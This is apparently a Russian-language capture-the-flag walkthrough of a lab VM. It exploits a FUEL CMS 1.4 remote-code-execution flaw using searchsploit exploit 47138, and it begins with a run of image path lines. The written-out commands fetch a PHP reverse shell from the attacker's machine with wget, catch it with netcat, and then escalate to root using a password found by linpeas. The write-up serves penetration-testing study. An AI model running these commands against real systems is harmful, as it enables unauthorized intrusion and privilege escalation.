










#Прохождение
1. Запускаем перебор директорий с помощью ffuf:
``ffuf -u http://192.168.81.130/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``
В результате перебора обнаруживаем дирректорию /home:

2. Перейдя по адрессу http://192.168.81.130/home обнаруживаем, что используетя FUEL CMS версии 1.4:

3. Ищем уязвимости данной CMS с помощью утилиты searchsploit:
``searchsploit Fuel CMS``
И получаем следующий результат:

4. Копируем скрипт с эксплойтом с помощью команды:
``searchsploit -m 47138``
И получаем следующий скрипт

5. Меняем его следующим образом:
- В переменную url записываем адресс сайта
- Меняем функцию raw_input на input
- Меняем urllib.quote(xxxx) на urllib.parse.quote(xxxx)
- Удаляем переменную proxy и параметр proxies=proxy
- Добавляем скобки у print

6. Выполняем скрипт
``python 47138.py``
И получаем параметр cmd с помощью которого мы можем выполнять параметры операционной системы. Проверим это введя комманду id:

7. Подготовим файл reverse.php от pentestmonkey https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.
И заменим в нем следующие поля:
- Ip - устанавливаем наш ip адресс
- Port - устанавливаем 4444

8. Запускаем на хостовой машине простой http-сервер используя python:
``python -m http.server 80``
9. Загружаем reverse shell на машину, используя rce уязвимость:
``wget http://192.168.81.128/reverse.php``
10. Прослушиваем 4444 порт:
``nc -lnvp 4444``
11. Открываем reverse shell в браузере по адрессу: http://192.168.81.130/reverse.php
12. Получаем shell:

13. Спавним оболочку с помощью python и получаем доступ к пользователю www-data:
``python -c 'import pty; pty.spawn("/bin/bash")'``
14. Загружаем скрипт <a href="https://github.com/carlospolop/PEASS-ng/releases/tag/20230724-3e05f4c7">linpeas.sh</a>, аналогично reverse.php
``wget http://192.168.81.128/linpeas.sh``
15. Переходим в дирректорию /var/www/html
16. Добавляем правда на выполнению скрипту linpeas.sh и вызываем его
``chmod +x linpeas.sh``
``./linpeas.sh``
17. Скрипт обнаруживает пароль в файле /var/www/html/fuel/application/config/database.php

18. Пробуем его для доступа к root и получаем доступ:
